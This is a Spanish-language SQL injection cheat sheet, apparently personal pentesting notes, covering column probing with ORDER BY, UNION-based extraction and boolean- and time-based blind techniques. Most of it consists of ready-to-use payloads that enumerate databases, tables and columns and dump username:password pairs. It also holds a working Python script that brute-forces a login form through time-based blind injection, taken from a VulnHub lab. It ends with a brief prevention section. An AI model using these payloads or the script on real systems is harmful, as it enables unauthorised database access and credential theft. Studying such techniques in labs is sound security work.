

# SQL Injection (SQLi) - Cheat Sheet

> [!danger] ¿Qué es una inyección SQL?
> 
> Es una vulnerabilidad web que ocurre cuando los _inputs_ del usuario no se sanitizan, permitiendo al atacante inyectar **código SQL malicioso**. Esto permite evadir autenticaciones, extraer datos sensibles o manipular la base de datos entera.

> [!abstract] Tipos de Bases de Datos Vulnerables
> 
> - **Relacionales (Más comunes):** MySQL, PostgreSQL, SQL Server.
>     
> - **NoSQL / Grafos / Objetos:** MongoDB, Neo4j, db4o (Vulnerables a inyecciones específicas de su propio lenguaje/comandos).
>     

---

## La Caja de Herramientas (Funciones Clave)

Antes de empezar a inyectar, estas son las funciones vitales que te van a permitir extraer datos, especialmente en ataques a ciegas (_Blind_).

> [!tip] Funciones de Extracción y Lógica
> 
> - **`SUBSTR(cadena, inicio, longitud)`**: Extrae un fragmento de texto. Vital para ir sacando información carácter por carácter en ataques _Blind_.
>     
> - **`IF(condición, valor_si_verdadero, valor_si_falso)`**: Evalúa una condición. Ideal para inyecciones basadas en tiempo (ej: si acierto la letra, dormí la base de datos 3 segundos).
>     
> - **`GROUP_CONCAT(columna)`**: Agrupa múltiples filas de resultados en una sola cadena separada por comas. Es magia pura para extraer toda una tabla en una sola petición.
>     


## Uso de ORDER BY

Puede pasar que la web no muestre errores, pero si muestre cambios en la respuesta. Por ejemplo, si estamos en una vista de login y ponemos una inyección SQL, la web puede mostrar error o login exitoso. En este caso, podemos usar ORDER BY para determinar el número de columnas a la tabla que el programador dejó en el SELECT.

#### La Regla de Oro del SQL

Para que un atacante pueda usar un comando UNION (que sirve para robar datos de otras tablas), la consulta maliciosa debe tener el mismo número de columnas que la consulta original del programador.

Si la consulta original pide 5 columnas y tú intentas unir 4, la base de datos da un error y el ataque falla.

#### El "Tanteo" con ORDER BY

El atacante empieza a probar números de forma secuencial. El servidor web responderá de dos formas distintas:

    ORDER BY 1--: La página carga bien (existe al menos 1 columna).

    ORDER BY 2--: La página carga bien (existen al menos 2 columnas).

    ...

    ORDER BY 7--: La página carga bien (existen al menos 7 columnas).

    ORDER BY 8--: ¡ERROR! (o la página se ve distinta).

En ese preciso momento, el atacante ya sabe: "La tabla original tiene exactamente 7 columnas".

#### ¿Qué hace internamente la base de datos?

Cuando tú pones ORDER BY 7, le estás diciendo al motor de SQL: "Ordena el resultado final basándote en lo que haya en la séptima columna de la lista del SELECT".

Si el programador escribió:
SELECT id, nombre, email, password FROM usuarios... (4 columnas)

Y tú inyectas un ORDER BY 7, la base de datos se vuelve loca porque no existe una séptima columna para usar como criterio de orden y lanza una excepción. El atacante usa ese error como confirmación.

#### ¿Cuál es el siguiente paso del atacante?

Ahora que sabe que hay 7 columnas, el atacante dejará de usar el ORDER BY y pasará al UNION SELECT.

Como ya conoce el número exacto, puede escribir una consulta que "encaje" perfectamente:

```sql
admin' UNION SELECT 1,2,3,4,5,6,7-- -
```

Esto le permite ver en qué parte de la pantalla aparecen esos números (1, 2, 3...) y luego reemplazar, por ejemplo, el número 5 por version() o user() para empezar a extraer información real del sistema.


## Como identificar que tipo de SQL Injection es

Hay 3 tipos de SQL Injection:
1. Error-Based & UNION-Based
2. Boolean-Based Blind
3. Time-Based Blind


### 1. Error-Based & UNION-Based

Se usa cuando podés ver la respuesta de la base de datos reflejada en la pantalla.

> [!example] Ejemplos de Inyección (Parámetro GET)
> 
> - **Sacar DBs:** `?id=12232' UNION SELECT group_concat(schema_name) FROM information_schema.schemata-- -`
>     
> - **Sacar Tablas:** `?id=12232' UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='hack'-- -`
>     
> - **Sacar Columnas:** `?id=12232' UNION SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='hack' AND table_name='users'-- -`
>     

### 2. Boolean-Based Blind

Se usa cuando vas a ciegas. La web no te muestra errores, pero cambia su comportamiento (ej. muestra "Usuario encontrado" vs "No encontrado") según si la consulta es _True_ o _False_.

```sql
-- Pregunta: ¿El primer carácter del firstname del usuario 1 es la letra 'a' (ascii 97)?
SELECT (SELECT ascii(substring(firstname,1,1)) FROM scientist WHERE id=1)=97;
-- Devuelve 1 (True) o 0 (False)
```

### 3. Time-Based Blind
Se utiliza cuando la web es estática y no cambia en nada (se dice tambien que es ciega). Le pedimos a la base de datos que "espere" (`sleep`) si acertamos la condición.

> [!warning] OJO
> 
> Para que el `sleep` se ejecute, a veces la consulta original debe ser verdadera (ej: usar un `id` que exista).

```sql
?id=1' AND IF(ascii(substr(database(),1,1))=104, sleep(3), 1)-- -
```

#### Cheatsheet Time based blind
##### Enumerar BD actual
```sql
admin' and if(substr(database(),{pos},1)='{caracter}',sleep(5),1)
```
##### Enumerar las BD existentes
```sql
admin' and if(substr((select group_concat(schema_name) from information_schema.schemata),{pos},1)='{caracter}',sleep(0.9),1)-- -
```

Entonces si ya tienes la BD, por ej `vip`

```sql
admin' and if(substr((select group_concat(table_name) from information_schema.tables where table_schema='pokerleague'),{position},1)='{i}',sleep(0.9),1)-- -
```
### Identificar la Base de Datos Actual

Dependiendo del motor, el comando cambia:

|**Motor de Base de Datos**|**Comando / Consulta para ver BD actual**|
|---|---|
|**MySQL / MariaDB**|`SELECT DATABASE();`|
|**PostgreSQL**|`SELECT current_database();`|
|**SQL Server**|`SELECT DB_NAME();`|

---

## Flujo de Trabajo Típico (Metodología)

Cuando confirmás la vulnerabilidad, el camino hacia el volcado de datos (dump) siempre sigue este flujo lógico:




### 💻 Consultas Clave (Paylods de Extracción)

Acá tenés las consultas exactas usando `GROUP_CONCAT` para sacar mucha info de un solo golpe (ideal para ataques basados en errores o UNION):

**1. Enumerar TODAS las Bases de Datos:**

```sql
SELECT group_concat(schema_name) FROM information_schema.schemata
```

**2. Enumerar TABLAS de una Base de Datos específica (ej. 'pokerleague'):**

```sql
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='pokerleague'
```

**3. Enumerar COLUMNAS de una Tabla específica (ej. 'pokermax_admin'):**

```sql
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='pokerleague' AND table_name='pokermax_admin'
```

**4. Extraer los DATOS (Ej: username y password separados por `:` que en hexa es `0x3a`):**

```sql
SELECT group_concat(username,0x3a,password) FROM pokermax_admin
```

---

## 💥 Tipos de Inyección y Ejemplos Prácticos


---

## 🤖 Automatización con Python (Time-Based Blind)

_(Basado en el caso de la maquina CASINO ROYALE de VulnHub)_

Cuando vas a ciegas, hacerlo a mano es imposible. Este es el _core_ del script en Python usando la librería `requests` para iterar posición por posición y carácter por carácter.

**Estructura del Payload inyectado:**

```python
# Payload típico inyectado en un campo de login ("username")
payload = "admin' and if(substr((select group_concat(schema_name) from information_schema.schemata),%d,1)='%s',sleep(0.85),1)-- -" % (position, character)
```

**Bucle de fuerza bruta (Script de ejemplo):**

```python
import requests
import time
from pwn import *

main_url = "http://target.com/login"
caracteres = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_,-:@"
datos_extraidos = ""

p1 = log.progress("Iniciando inyección SQL")
p2 = log.progress("Datos")

for position in range(1, 100):
    for character in caracteres:
        post_data = {
            'op': 'adminlogin',
            # Cambiar la consulta interna según qué queramos enumerar (DBs, Tablas, Columnas, Datos)
            'username': "admin' and if(substr((select group_concat(schema_name) from information_schema.schemata),%d,1)='%s',sleep(0.85),1)-- -" % (position, character),
            'password': 'admin'
        }
        
        time_start = time.time()
        r = requests.post(main_url, data=post_data)
        time_end = time.time()
        
        # Si la respuesta tardó más de 0.85 segs, ¡acertamos el carácter!
        if time_end - time_start > 0.85:
            datos_extraidos += character
            p2.status(datos_extraidos)
            break # Pasamos a la siguiente posición
```

## Prevención (Para Blue Team)

- **Consultas Preparadas (Prepared Statements):** Es la solución definitiva. Separa el código SQL de los datos proporcionados por el usuario.
    
- **Validación y Sanitización:** Limpiar inputs (aunque no reemplaza a las consultas preparadas).
    
- **Evitar la concatenación dinámica:** Nunca construir consultas usando strings directos (`"SELECT * FROM users WHERE user = '" + input + "'"`).
    

---

**Recursos Adicionales:**
- [MySQL Online (ExtendsClass) para practicar sintaxis](https://extendsclass.com/mysql-online.html)
